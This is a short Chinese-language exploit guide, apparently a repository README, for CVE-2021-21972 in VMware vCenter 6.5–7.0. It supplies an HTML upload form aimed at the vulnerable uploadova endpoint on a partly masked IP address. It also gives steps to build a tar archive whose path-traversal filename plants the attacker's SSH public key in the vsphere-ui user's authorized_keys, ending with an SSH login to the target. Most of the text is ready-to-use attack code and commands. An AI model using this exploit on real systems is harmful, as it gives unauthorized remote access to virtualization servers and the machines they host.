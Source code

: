 # CVE-2021-21972 vCenter 6.5-7.0 RCE 漏洞

## 参考
http://noahblog.360.cn/vcenter-6-5-7-0-rce-lou-dong-fen-xi/?continueFlag=f498c1c266566c7838d9ab5bef68118c
https://swarm.ptsecurity.com/unauth-rce-vmware/
## 漏洞细节

漏洞为任意文件上传
存在问题的接口为/ui/vropspluginui/rest/services/uploadova
- 构造exp.html

```
<html>
<head>
<title>CVE-2021-21972 vCenter 6.5-7.0 RCE 漏洞上传利用</title>
</head>
<body>
    <form action="https://221.11.xx.211/ui/vropspluginui/rest/services/uploadova" method="post" enctype="multipart/form-data">
        test：<input type="text" name="name" value="不用输入"><br>
        选择你的exp html：<input type="file" name="uploadFile"><br>
        <input type="submit" value="提交">
    </form>
<pre>
利用了接口：/ui/vropspluginui/rest/services/uploadova，上传自己的SSH生成的公钥，使用SSH进行登录。

</pre>
</body>
</html>
```
- 构造tar

```
ssh-keygen -t rsa
cp /Users/root/.ssh/id_rsa.pub authorized_keys

使用7zip 压缩authorized_keys为 authorized_keys.tar,然后编辑压缩包，修改文件authorized_keys名字为：../../home/vsphere-ui/.ssh/authorized_keys
然后保存，关闭7zip
```
- 上传

使用html上传tar即可，然后使用ssh 221.11.xx.211 进行登录

